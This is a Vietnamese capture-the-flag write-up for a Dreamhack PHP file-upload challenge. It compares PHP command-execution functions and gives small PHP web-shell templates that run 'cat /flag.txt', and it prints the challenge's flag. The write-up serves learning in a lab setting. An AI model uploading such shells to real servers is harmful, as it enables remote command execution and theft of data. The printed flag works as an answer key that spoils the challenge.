

# Đề bài 
A file storage service written in php.

Use a file upload vulnerability to obtain a flag. The flag  is located at `/flag.txt`
https://dreamhack.io/wargame/challenges/38
# Solution 
Challenge này cho ta upload file lên và mở file đó
Vậy ta chỉ cần đơn giản là up file nào để chạy lệnh bash nhằm mục đích đọc file `flag.txt`
Sau khi search thì có 2 file có thể thực thi lệnh bash:
1. file shell `.sh` với header `#!/bin/bash`, sau đó cấp quyền `chmod +x <ten_file>.sh` rồi mới chạy được
2. file `.php` thì sử dụng các hàm như `system`, `exec()`, `shell_exec()`, `passthru()` hoặc Backtick `` `...` ``

Trước hết ta thử file shell, tạo file shell như sau
```shellscript
#!/bin/bash

cat /flag.txt
```
Sau khi upload và nhấn chọn file này thì chỉ nhận được đoạn text


Ta thử hướng 2 với các file php
Trước tiên phải phân biệt được các hàm với nhau
| Cách | Chạy shell? | Trả về | In output trực tiếp? |
|---|---|---|---|
| `system()` | ✅ | Dòng cuối + exit status | ✅ |
| `exec()` | ✅ | Dòng cuối | ❌ |
| `shell_exec()` | ✅ | Toàn bộ output | ❌ |
| `passthru()` | ✅ | `void` | ✅ |
| Backtick `` `...` `` | ✅ | Toàn bộ output | ❌ |

Vì tùy hàm có in ra output hay không nên ta có cấu trúc của file khác nhau 
- Nhóm A: `system()`, `passthru()`
```php
<?php
A("cat /flag.txt");  # Thay `A` bằng các hàm của nhóm A
?>
```
- Nhóm B: `exec()`, `shell_exec()` và  `` `...` ``
```php
<?php
$a = B("cat /flag.txt"); # Thay `B` bằng các hàm của nhóm B
echo $a;
?>
```
Khi ta tạo file với mẫu như trên rồi upload thì khi nhấn vào file đó ở `/list.php`, ta sẽ thu được flag
-> Flag:
`DH{c29f44ea17b29d8b76001f32e8997bab}`
